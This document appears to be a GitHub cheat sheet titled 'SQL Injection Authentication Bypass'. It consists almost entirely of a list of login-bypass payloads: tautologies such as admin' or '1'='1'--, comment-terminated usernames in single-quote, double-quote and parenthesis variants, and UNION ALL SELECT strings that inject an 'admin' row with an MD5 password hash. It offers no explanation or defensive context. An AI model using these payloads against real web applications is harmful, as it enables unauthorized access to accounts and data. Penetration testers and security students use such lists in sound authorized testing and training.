 # SQL Injection Authentication Bypass (Cheat Sheet)


![](/screenshot/03.png)


![](/screenshot/02.png)


``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ```

``` admin' # ``` 

``` admin'/* ``` 

``` admin' or '1'='1 ``` 

``` admin' or '1'='1'-- ```

``` admin' or '1'='1'# ``` 

``` admin' or '1'='1'/* ``` 

``` admin'or 1=1 or ''=' ```

``` admin' or 1=1 ```

``` admin' or 1=1-- ```

``` admin' or 1=1# ```

``` admin' or 1=1/* ```

``` admin') or ('1'='1 ```

``` admin') or ('1'='1'-- ```

``` admin') or ('1'='1'# ```

``` admin') or ('1'='1'/* ```

``` admin') or '1'='1 ```

``` admin') or '1'='1'-- ```

``` admin') or '1'='1'# ```

``` admin') or '1'='1'/* ```

``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```

``` admin" -- ```

``` admin" # ```

``` admin"/* ```

``` admin" or "1"="1 ```

``` admin" or "1"="1"-- ```

``` admin" or "1"="1"# ```

``` admin" or "1"="1"/* ```

``` admin"or 1=1 or ""=" ```

``` admin" or 1=1 ```

``` admin" or 1=1-- ```

``` admin" or 1=1# ```

``` admin" or 1=1/* ```

``` admin") or ("1"="1 ```

``` admin") or ("1"="1"-- ```

``` admin") or ("1"="1"# ```

``` admin") or ("1"="1"/* ```

``` admin") or "1"="1 ```

``` admin") or "1"="1"-- ```

``` admin") or "1"="1"# ```

``` admin") or "1"="1"/* ```

``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
